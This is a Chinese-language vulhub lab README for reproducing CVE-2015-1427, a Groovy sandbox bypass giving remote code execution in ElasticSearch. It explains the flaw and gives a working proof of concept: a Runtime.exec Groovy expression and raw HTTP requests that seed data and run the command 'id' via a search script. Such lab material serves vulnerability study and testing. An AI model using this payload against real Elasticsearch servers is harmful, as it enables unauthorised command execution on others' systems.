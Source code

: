 # **[ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/)** 

## 漏洞原理


ElasticSearch是一个JAVA开发的搜索分析引擎。

2014年，曾经被曝出过一个 远程代码执行漏洞（CVE-2014-3120） ，漏洞出现在脚本查询模块，由于搜索引擎支持使用脚本代码（MVEL），作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意java代码，

>后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行。



## 漏洞复现：

以为分两种环境所以有两种POC：

**Java沙盒绕过法**：
```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

> 由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

> 然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```
